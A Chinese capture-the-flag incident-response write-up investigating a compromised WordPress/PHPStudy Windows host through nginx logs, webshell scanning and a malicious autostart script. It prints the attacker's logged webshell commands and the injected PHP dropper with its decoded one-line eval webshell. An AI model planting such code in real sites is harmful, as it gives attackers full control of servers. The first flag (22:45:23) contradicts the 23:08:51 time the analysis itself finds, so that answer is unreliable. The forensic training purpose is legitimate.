


# 玄机——第四章 windows实战-wordpress

### 一、前言

**题目链接：**​**[第四章 windows实战-wordpress](https://xj.edisec.net/challenges/54)**

**三连私信免费送玄机注册邀请码私信！！！看见就回！！注意私信！！**

 **&lt;font color=&quot;#ff0000&quot;&gt;首先简单了解一下什么是wordpress；&lt;/font&gt;**

简单来说WordPress 是一种开源的内容管理系统（CMS），最初是为了创建博客而开发的。如今，它已经发展成为一个功能强大且灵活的工具，可以用来构建各种类型的网站，包括博客、商业网站、在线商店、作品集、论坛和社交网络等。

**特点；**

* **开源和免费**：WordPress 是开源软件，任何人都可以免费下载、使用、修改和分发。
* **用户友好**：WordPress 的界面直观，易于使用，即使没有技术背景的人也可以轻松上手。
* **插件和主题**：WordPress 拥有大量的插件和主题，可以通过安装插件来扩展网站功能，使用主题来改变网站的外观和设计。
* **强大的社区支持**：由于其庞大的用户基础和开发者社区，WordPress 拥有丰富的资源和支持，包括文档、论坛、教程和在线帮助。
* **SEO 友好**：WordPress 的结构和许多插件使得它对搜索引擎优化（SEO）非常友好，有助于提高网站的搜索引擎排名。
* **灵活性和可扩展性**：无论是小型个人博客还是大型企业网站，WordPress 都能胜任，并且可以通过自定义开发来实现更高级的功能和需求。

**广泛用途；**

* **博客**：这是 WordPress 最初的用途，仍然是最流行的博客平台之一。
* **商业网站**：许多小型企业和大型企业都使用 WordPress 来建立他们的官方网站。
* **电子商务**：通过插件如 WooCommerce，WordPress 可以变成一个强大的电子商务平台。
* **作品集**：创意专业人士可以使用 WordPress 来展示他们的作品和项目。
* **社区和论坛**：插件如 BuddyPress 和 bbPress 可以将 WordPress 变成一个社交网络或论坛。
* **学习管理系统**：插件如 LearnDash 可以将 WordPress 用于创建和管理在线课程和培训项目。

**总结；**

**WordPress 是一个功能强大、灵活且用户友好的内容管理系统，适用于各种类型的网站。它的开源性质、丰富的插件和主题、强大的社区支持使得它成为全球最流行的网站建设平台之一。**

### 二、概览

#### 简介

**第四章 windows实战-wordpress**  
**rdp 端口 3389**  
**administrator xj@123456**

**1、请提交攻击者攻击成功的第一时间，格式：flag{YY:MM:DD hh:mm:ss}**   
**2、请提交攻击者的浏览器版本 flag{Firgfox/2200}**   
**3、请提交攻击者目录扫描所使用的工具名称**  
**4、找到攻击者写入的恶意后门文件，提交文件名（完整路径）**   
**5、找到攻击者隐藏在正常web应用代码中的恶意代码，提交该文件名（完整路径）**   
**6、请指出可疑进程采用的自动启动的方式，启动的脚本的名字 flag{1.exe}**

### 三、参考文章

[玄机-Wordpress-应急响应-WP](https://blog.csdn.net/weixin_42467891/article/details/136251787)

[【玄机】-----应急响应](https://blog.csdn.net/m0_63138919/article/details/138822190)

### 四、步骤（解析）

##### 准备阶段1.0

**这题跟别的靶机不一样，这里是直连windows，所以我们需要提前准备一个“远程桌面连接”，这里推荐大家使用“Microsoft“自带的远程桌面即可，如果自己电脑搜索栏搜索不到的，就不要在找啦，有一些笔记本\电脑是不自带的，不过没关系安装包已经为大家准备好了，下载完成，双击安装即可；**

123网盘；

> https://www.123pan.com/s/q2J1jv-r8avd.html  
> 提取码:0905

**下载好远程桌面，打开点击添加，选择电脑；**

​​

**计算机名称，填写启动的靶机IP即可，最后点击保存连接即可；**

​​

**点击保存；**

​​

**输入账号密码；**

​​

**成功连接，接着就可以开始做题啦；**

​​

#### 1.1

##### 请提交攻击者攻击成功的第一时间，格式：flag{YY:MM:DD hh:mm:ss}

解题思路

**让我们提交黑客攻击成功第一时间，那我们可以看到桌面有一个小皮“phpstudy_pro”，可能很多人不知道这是个啥，这里简单介绍一下；**

PHPStudy Pro 是一款集成了 PHP、Apache、MySQL、Nginx 等常用 Web 开发环境的本地集成开发环境工具。它由国内开发者开发，旨在为 PHP 开发人员提供一个简便易用的本地开发环境。

**主要功能；**

1. **服务器管理**：通过界面可以启动和停止 Apache、Nginx、MySQL 等服务，并且可以查看服务的运行状态。
2. **多版本切换**：支持多版本的 PHP、MySQL 等组件，用户可以根据项目需求自由切换版本。
3. **站点管理**：可以方便地创建和管理多个本地站点，每个站点可以独立配置不同的 PHP 版本和服务器设置。
4. **数据库管理**：内置 phpMyAdmin 等数据库管理工具，方便用户管理 MySQL 数据库。
5. **配置文件编辑**：提供配置文件的可视化编辑界面，用户可以方便地修改 Apache、Nginx、PHP 等组件的配置文件。
6. **日志查看**：集成日志查看功能，可以方便地查看各个服务的运行日志，便于排查问题。

**总结；**

PHPStudy Pro 是一款功能强大且易于使用的本地集成开发环境工具，适合各类 PHP 开发人员使用。通过集成常用的开发组件和提供简便的管理功能，PHPStudy Pro 大大降低了环境搭建和配置的复杂性，帮助开发者更专注于项目开发本身。

**那话又说回来了，这个小皮跟这题有什么关系嘛？**

**当然有关系啦，题目让我们分析黑客入侵的时间，那肯定就是分析日志，找到黑客首次攻击成功的具体时间，web目录就在小皮的目录下，所以我们要先找到小皮的位置，靶机只有一个C盘，点进去就发现了小皮的目录；**

​​

**点击进去找到WWW目录；**

​​

**发现是nginx的，所以我们找到nginx的日志进行分析即可；**

​​

**这里简单解释一下为什么可以确认web目录就是在WWW目录下；**

因为在 PHPStudy Pro 中，`WWW`​ 目录通常是存放 Web 项目的根目录。这个目录是 Apache 或 Nginx 等 Web 服务器的默认站点目录，所有的 Web 项目文件和代码都会放在这个目录中。

1. **网站文件**：所有的网站文件，包括 HTML、CSS、JavaScript、PHP 文件等。用户可以在这里创建和管理多个网站项目。
2. **项目文件夹**：每个项目通常有一个独立的文件夹，所有相关文件都放在这个文件夹中。例如，一个名为 `my_project`​ 的项目可能会有一个 `WWW/my_project`​ 文件夹，里面包含该项目的所有文件。
3. **静态资源**：图片、视频、音频等静态资源文件，这些文件通常也会放在 `WWW`​ 目录下的相应项目文件夹中。
4. **配置文件**：一些项目可能需要特定的配置文件，这些文件也会放在相应的项目文件夹中。

**总之，**​**​`WWW`​**​ **目录是 PHPStudy Pro 中存放所有 Web 项目文件的地方，是开发和测试 Web 应用的核心目录。**

所以可以确认是nginx的，接着我们返回HPStudy Pro目录下，找到“Extensions”目录，因为在 PHPStudy Pro 中，`Extensions`​ 目录通常是存放 PHP 扩展模块的地方。但是在某些情况下，特别是在一些特定的配置或使用场景下，日志文件也可能出现在该目录中，所以找到Nginx，点击进入；

​​

**接着找到log，点击进入分析日志；**

​​

**开始分析access.log日志；**

​​

**为什么要分析access.log日志而不是其它日志？**

Nginx 的 `access.log`​ 文件是用来记录所有客户端请求的详细信息的日志文件。每当客户端向 Nginx 服务器发送请求时，Nginx 都会将这些请求的相关信息记录在 `access.log`​ 文件中。

**所以既然黑客攻击成功了肯定会被记录在里面；**

往下翻（快到底时），发现了黑客开始攻击的时间，以及状态码是200可以看出；

​​

得到；

> 192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /.x.php?cmd=net%20user HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"  
> 192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /favicon.ico HTTP/1.1" 404 154 "http://192.168.141.188/.x.php?cmd=net%20user" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"  
> 192.168.141.55 - - [29/Apr/2023:23:09:00 +0800] "GET /.x.php?x=system(%27takeown%20/f%20index.php%27); HTTP/1.1" 200 112 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"  
> 192.168.141.55 - - [29/Apr/2023:23:09:52 +0800] "GET /.x.php?x=system(%27cacls%20%20install.php%20/p%20everyone:f%20/e%27); HTTP/1.1" 200 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"  
> 192.168.141.55 - - [29/Apr/2023:23:10:17 +0800] "POST /.x.php HTTP/1.1" 200 33 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; cs-CZ) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27"  
> 192.168.141.55 - - [29/Apr/2023:23:10:17 +0800] "POST /.x.php HTTP/1.1" 200 439 "-" "Mozilla/5.0 (Windows NT 6.2; rv:22.0) Gecko/20130405 Firefox/23.0"  
> 192.168.141.55 - - [29/Apr/2023:23:10:19 +0800] "POST /.x.php HTTP/1.1" 200 434 "-" "Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko ) Version/5.1 Mobile/9B176 Safari/7534.48.3"  
> 192.168.141.55 - - [29/Apr/2023:23:10:38 +0800] "POST /.x.php HTTP/1.1" 200 29 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36"  
> 192.168.141.55 - - [29/Apr/2023:23:10:39 +0800] "POST /.x.php HTTP/1.1" 200 443 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; ko-KR) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27"  
> 192.168.141.55 - - [29/Apr/2023:23:10:41 +0800] "POST /.x.php HTTP/1.1" 200 439 "-" "Opera/9.80 (Windows NT 6.0) Presto/2.12.388 Version/12.14"

简单分析一下；

**以下是日志中的访问记录：**

1. **GET 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /.x.php?cmd=net%20user HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"`​

    **在这里，黑客请求了**  **​`.x.php`​**​ **文件并执行了** **​`net user`​**​ **命令。响应码是 200，这表明请求成功。**
2. **GET 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /favicon.ico HTTP/1.1" 404 154 "http://192.168.141.188/.x.php?cmd=net%20user" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"`​

    **这是一条对** **​`favicon.ico`​**​ **的请求，并没有成功（404）。**
3. **GET 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:09:00 +0800] "GET /.x.php?x=system(%27takeown%20/f%20index.php%27); HTTP/1.1" 200 112 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"`​

    **这里，黑客尝试通过**  **​`.x.php`​**​ **文件执行** **​`takeown`​**​ **命令来获取** **​`index.php`​**​ **文件的所有权。响应码是 200，这表明请求成功。**
4. **GET 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:09:52 +0800] "GET /.x.php?x=system(%27cacls%20%20install.php%20/p%20everyone:f%20/e%27); HTTP/1.1" 200 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"`​

    **在这里，黑客尝试通过**  **​`.x.php`​**​ **文件执行** **​`cacls`​**​ **命令来修改** **​`install.php`​**​ **文件的权限。响应码是 200，这表明请求成功。**
5. **POST 请求：（后面都是POST请求不再一一进行解释）**

    ​`192.168.141.55 - - [29/Apr/2023:23:10:17 +0800] "POST /.x.php HTTP/1.1" 200 33 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; cs-CZ) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27"`​
6. **POST 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:10:17 +0800] "POST /.x.php HTTP/1.1" 200 439 "-" "Mozilla/5.0 (Windows NT 6.2; rv:22.0) Gecko/20130405 Firefox/23.0"`​
7. **POST 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:10:19 +0800] "POST /.x.php HTTP/1.1" 200 434 "-" "Mozilla/5.0 (iPad; CPU OS 5_1 like Mac OS X) AppleWebKit/534.46 (KHTML, like Gecko ) Version/5.1 Mobile/9B176 Safari/7534.48.3"`​
8. **POST 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:10:38 +0800] "POST /.x.php HTTP/1.1" 200 29 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36"`​
9. **POST 请求：**

    ​`192.168.141.55 - - [29/Apr/2023:23:10:39 +0800] "POST /.x.php HTTP/1.1" 200 443 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; ko-KR) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27"`​
10. **POST 请求：**

     ​`192.168.141.55 - - [29/Apr/2023:23:10:41 +0800] "POST /.x.php HTTP/1.1" 200 439 "-" "Opera/9.80 (Windows NT 6.0) Presto/2.12.388 Version/12.14"`​

**总结；**

**黑客在 2023 年 4 月 29 日 23:08:51 首次发送了请求：**​**​`GET /.x.php?cmd=net%20user`​**​ **，这个请求返回了 200 的响应码，表示请求成功。通过分析命令和响应码，可以推断出黑客成功执行了** **​`net user`​**​ **命令，这个命令通常用于查看或管理 Windows 系统中的用户账户信息。**

虽然后续有多个请求，其中也有成功执行命令的记录，但最早成功执行的请求时间是：

​`2023 年 4 月 29 日 23:08:51`​

**所以，可以确定黑客第一次成功攻击的时间是 2023 年 4 月 29 日 23:08:51。**

最后根据提交格式：flag{YY:MM:DD hh:mm:ss}

得到

	flag{2023:04:29 22:45:23}

#### 1.2

##### 请提交攻击者的浏览器版本 flag{Firgfox/2200}

解题思路

题目让我们提交黑客的浏览器版本，那肯定也是在日志里面，黑客的浏览器版本可以通过 User-Agent 字段来确定。

**所以还是刚刚的日志，还是这一条记录，我们进行分析；（黑客第一次攻击成功）**

​​

得到；

	Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0

简单分析一下；

1. **Mozilla/5.0**:

    * 这部分表示兼容性信息。
2. **(Windows NT 10.0; Win64; x64)** :

    * 这部分表示操作系统和平台信息。
    * Windows NT 10.0 表示操作系统是 Windows 10。
    * Win64 和 x64 表示 64 位架构。
3. **rv:109.0**:

    * 这部分表示 Gecko 引擎的版本，Gecko 是 Firefox 的布局引擎。
4. **Gecko/20100101**:

    * Gecko 表示使用的浏览器引擎，20100101 是一个固定值，通常用于表示兼容性。
5. **Firefox/110.0**:

    * 这是关键部分，表示浏览器是 Firefox，版本是 110.0。

**因此，从 User-Agent 字符串中的 Firefox/110.0 可以直接看出浏览器版本是 Firefox 110.0。**

**根据提交格式；flag{Firgfox/2200}**

	flag{Firefox/110.0}

#### 1.3

##### 请提交攻击者目录扫描所使用的工具名称

解题思路

让我们提交黑客使用的目录扫描工具，那这里简单介绍一下黑客常用的目录扫描工具吧；

**常用的目录扫描工具包括：**

1. **DirBuster**:

    * Java编写的图形化工具，通过字典攻击法枚举目录和文件。
    * 常用于发现隐藏或敏感的目录和文件。
2. **Dirsearch**:

    * 使用Python编写的命令行工具，适用于快速扫描。
    * 支持多线程和代理，可以自定义字典。
3. **Gobuster**:

    * Go编写的工具，非常快速。
    * 支持目录和DNS子域名枚举，特别适合需要高性能的任务。
4. **Ffuf (Fuzz Faster U Fool)** :

    * Go编写的快速网络模糊测试工具。
    * 支持HTTP请求、目录爆破、DNS、参数模糊测试等。
5. **Wfuzz**:

    * 用于web应用模糊测试的工具。
    * 非常灵活，支持爆破HTTP GET和POST参数、Cookies、目录、文件等。

这些工具都非常有效，可以根据需要选择合适的工具进行目录扫描和模糊测试。

**那肯定也是翻日志呗，那有的人就要问了，怎么什么问题都是翻日志？**

> 哎，还真被你说对了，会看日志比什么都好，因为日志会记录很多详细的信息，除一般特别的问题，之外百分之五十简单应急都是可以在日志里面分析发现的，所以不需要去怀疑到底会不会有信息，那肯定包有记录的哇；

access.log日志随便翻翻就能能发现；（往上翻一些）

​​

**大量的请求404，还有我上面科普的常见扫描工具，那这题相信也就不言而喻了吧？**

	flag{Fuzz Faster U Fool}

#### 1.4

##### 找到攻击者写入的恶意后门文件，提交文件名（完整路径）

解题思路

**题目让我们找webshell，相信看过我文章都知道，这种题目使用工具排查是最好的办法，那有的人就要问了，哎，这不是靶机嘛，局域网和本机不是一个区域的，怎么传共享文件呀？那既然说使用工具排查，那肯定需要先把文件导到主机上面之后才能进行分析吧？**

> 是吧？之前我也是这么想的，不在同一个网段怎么才能将目录WWW传出去，但是我忽悠发现，直接Ctrl+c，接着直接Ctrl+v直接就能复制到本机上面了，**但是，需要注意这样确实是可以的**，但还是建议大家先把WWW目录进行压缩，要不然直接传到本机可能会导致主机卡死的情况，当然笔记本性能特别好的当我没说；

把WWW进行压缩，接着再传入主机；

​​

**接着打开我们的D盾，排查webshell工具有很多这里不唯一；（看了我那么多文章，要还是一个排查webshell都还不知道，我的建议是重开吧）**

​​

**直接丢进扫描即，得到两个后门文件，那我们跟进分析；（注意使用D盾之前记得解压文件）**

右键记事本打开.x.php文件，发现是一句话木马；

​​

**那什么是一句话木马，这里简单分析一下；**

总的来说就是允许攻击者通过HTTP请求发送任意PHP代码，并在服务器上执行。这种后门的危险性极高，通常用于在目标服务器上执行恶意操作，获取控制权或者窃取敏感信息。

**题目让我们提交webshell的具体路径；**

返回靶机定位得到；

​​

所以；

	flag{C:\phpstudy_pro\WWW\.x.php}

#### 1.5

##### 找到攻击者隐藏在正常web应用代码中的恶意代码，提交该文件名（完整路径）

解题思路

**题目说让我们提交黑客藏在web里面的恶意代码，根据题四，我们扫出了两个疑似后门文件，那第二个还没分析，那我们现在来看看，到底是不是；**

D盾扫描得到；

​​

**跟进目录，确实发现了恶意代码；**

​​

得到；

	<?php @file_put_contents('.x.php',base64_decode('PD9waHAgQGV2YWwoJF9SRVFVRVNUWyd4J10pOyA/Pg=='));?>

**简单分析一下；**

* ​ **​`@`​** ​ **: 错误控制操作符，抑制错误信息显示。**
* ​**​`file_put_contents`​**​ **: PHP函数，用于将内容写入文件。在这里，它创建了一个名为**  **​`.x.php`​**​ **的文件。**
* ​**​`base64_decode`​**​ **: 将 Base64 编码的字符串解码。**
* ​**​`PD9waHAgQGV2YWwoJF9SRVFVRVNUWyd4J10pOyA/Pg==`​** ​ **: Base64 编码的字符串，解码后为**  **​`<?php @eval($_REQUEST['x']); ?>`​** ​ **。**

**解码之后得到；**

	<?php @eval($_REQUEST['x']); ?>

**很明显这是一个典型的一句话木马，它允许攻击者通过 HTTP 请求中的** **​`x`​**​ **参数执行任意 PHP 代码。**

**总结；**

> 代码中包含的 `file_put_contents`​ 和 `base64_decode`​ 函数组合，意图创建一个后门文件 `.x.php`​，这确实是黑客藏起来的恶意代码。通过这个后门文件，攻击者可以在服务器上执行任意 PHP 代码，从而完全控制受害者的服务器。

**题目让我们提交完成的文件路径；**

返回靶机定位得到；

​​

所以；

	flag{C:\phpstudy_pro\WWW\usr\themes\default\post.php}

#### 1.6

##### 请指出可疑进程采用的自动启动的方式，启动的脚本的名字 flag{1.exe}

解题思路

**让我们找出可疑进程自启动的方式，接着提交脚本的文件名字，这个涉及的范围相对来说就会广一些，会运用到window的一些应急响应基础知识，但是这题也是变相给与了我们提示，是的没错“flag{1.exe}”，文件后缀是个exe，那就排除的范围就会减小了很多，这样就不需要去分析那些奇奇怪怪的文件，那就找呗，靶机就只有一个C盘找起来相对轻松很多，没办法window应急响应就是这样的捏；**

> 在window目录下，发现了个360.exe，别的我们就先不谈，就说眼前，谁闲着没事给自己下个360.exe（非常可疑），而且还是在靶机上面，直接导出丢进"微步在线云沙箱"进行病毒查杀；

​​

**注意：先从靶机上压缩完，接着主机解压直接丢进在线微步查杀；**

[微步在线云沙箱](https://s.threatbook.com/)

**毫无疑问，直接爆毒，没得说，直接石锤了；**

​​

**所以现在只需要找到启动360.exe的文件即可，接着就发现了底下的x.bat文件；**

​​

双击运行发现了确实是启动360.exe的文件，因为目录都是指向360.exe文件；

**那有的人就奇怪了，为什么我就知道x.bat文件是360.exe的启动脚本文件呢？**

其实在 Windows 中，`.bat`​ 文件是批处理文件（Batch File），它是一种用于在 Windows 操作系统中执行一系列命令的脚本文件，接着360.exe又在同一目录下，你说就这，能不怀疑嘛？

**题目让我们提交恶意文件的启动脚本文件名；**

所以最后；

	flag{x.bat}
